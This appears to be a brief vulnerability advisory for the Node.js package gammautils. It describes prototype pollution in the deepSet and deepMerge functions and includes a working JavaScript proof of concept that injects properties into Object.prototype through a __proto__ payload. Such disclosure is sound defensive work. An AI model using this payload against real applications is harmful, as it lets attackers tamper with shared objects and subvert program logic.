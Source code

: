 # Overview

`gammautils` is a Lots of utilities for Node.js, this package is vulnerable to Prototype Pollution via the. `deepSet` and `deepMerge` functions.

# Proof of Concept
```
const gammautils = require('gammautils');
var payload = JSON.parse('{""__proto__"":{""polluted"":true}}');
gammautils.object.deepSet({}, '__proto__.polluted2', true);
gammautils.object.deepMerge({}, payload);
console.log(polluted);
console.log(polluted2);
```